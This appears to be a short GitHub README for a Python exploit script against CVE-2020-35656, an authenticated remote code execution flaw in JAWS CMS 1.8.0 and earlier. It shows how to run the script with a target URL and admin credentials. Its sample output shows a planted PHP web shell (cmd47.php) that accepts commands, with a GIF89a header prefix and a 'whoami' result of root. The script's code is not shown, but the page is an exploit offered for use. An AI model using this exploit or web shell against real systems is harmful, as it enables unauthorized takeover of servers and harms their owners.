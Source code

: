 # Jaws-CMS-RCE CVE-2020-35656
Authenticated RCE JAWS CMS &lt;=1.8.0


python jaws-rce.py
[+]Usage python jaws-rce.py http://victim.com/ admin admin




python jaws-rce.py http://192.168.1.98/jaws-master/jaws-master/ jawsadmin admin



Shell Location=== http://192.168.1.98/jaws-master/jaws-master/data/files/cmd47.php?c=whoami



GIF89a

root




#Discoverer

Bassam Assiri https://twitter.com/BassamAssiri  https://www.linkedin.com/in/bassam-assiri-9418401ab/
